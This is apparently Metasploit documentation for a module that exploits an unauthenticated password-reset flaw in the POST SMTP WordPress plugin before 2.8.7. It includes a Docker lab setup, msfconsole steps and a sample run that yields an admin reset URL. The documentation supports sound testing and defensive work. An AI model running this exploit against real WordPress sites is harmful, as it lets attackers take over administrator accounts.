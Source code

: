 ## Vulnerable Application

The POST SMTP WordPress plugin
prior to 2.8.7 is affected by a privilege escalation where an unauthenticated
user is able to reset the password of an arbitrary user. This is done by
requesting a password reset, then viewing the latest email logs to find
the associated password reset email.

### Install

1. Create `wp_post_smtp_acct_takeover.docker-compose.yml` with the content:
```
version: '3.1'

services:
  wordpress:
    image: wordpress:latest
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: chocapikk
      WORDPRESS_DB_PASSWORD: dummy_password
      WORDPRESS_DB_NAME: exploit_market
    mem_limit: 512m
    volumes:
      - wordpress:/var/www/html

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: exploit_market
      MYSQL_USER: chocapikk
      MYSQL_PASSWORD: dummy_password
      MYSQL_RANDOM_ROOT_PASSWORD: '1'
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:

```
2. `docker-compose -f wp_post_smtp_acct_takeover.docker-compose.yml up`
3. `wget https://downloads.wordpress.org/plugin/post-smtp.2.8.6.zip`
4. `unzip post-smtp.2.8.6.zip`
5. `docker cp post-smtp <wordpress_container_id>:/var/www/html/wp-content/plugins`
6. Complete the setup of wordpress
7. Enable the post-smtp plugin, select "default" for the SMTP service
  1. Complete the setup using random information, it isn't validated.
8. Update permalink structure per https://github.com/rapid7/metasploit-framework/pull/18164#issuecomment-1623744244


## Verification Steps

1. Install the vulnerable plugin
2. Start msfconsole
3. Do: `use auxiliary/admin/http/wp_post_smtp_acct_takeover`
4. Do: `set rhost 127.0.0.1`
5. Do: `set rport 5555`
6. `set ssl false`
7. `set username <username>`
8. `set verbose true`
9. `run`
10. Visit the output URL to reset the user's password.

## Options

### USERNAME

The username to perform a password reset against

## Scenarios

### Wordpress 6.6.2 with SMTP Post 2.8.6 on Docker

```
msf6 > use auxiliary/admin/http/wp_post_smtp_acct_takeover
msf6 auxiliary(admin/http/wp_post_smtp_acct_takeover) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf6 auxiliary(admin/http/wp_post_smtp_acct_takeover) > set rport 5555
rport => 5555
msf6 auxiliary(admin/http/wp_post_smtp_acct_takeover) > set ssl false
ssl => false
msf6 auxiliary(admin/http/wp_post_smtp_acct_takeover) > set username admin
username => admin
msf6 auxiliary(admin/http/wp_post_smtp_acct_takeover) > set verbose true
verbose => true
msf6 auxiliary(admin/http/wp_post_smtp_acct_takeover) > run
[*] Running module against 127.0.0.1

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/post-smtp/readme.txt
[*] Found version 2.8.6 in the plugin
[+] The target appears to be vulnerable.
[*] Attempting to Registering token fUefO7U12dXtb0DM on device GP3tOFuMfFErw
[+] Succesfully created token: fUefO7U12dXtb0DM
[*] Requesting logs
[*] Requesting email content from logs for ID 4
[+] Full text of log saved to: /home/mtcyr/.msf4/loot/20241029142103_default_127.0.0.1_wordpress.post_s_367186.txt
[+] Reset URL: http://127.0.0.1:5555/wp-login.php?action=rp&key=4kxMwfuvyQtcUDVrh985&login=admin&wp_lang=en_US
[*] Auxiliary module execution completed
```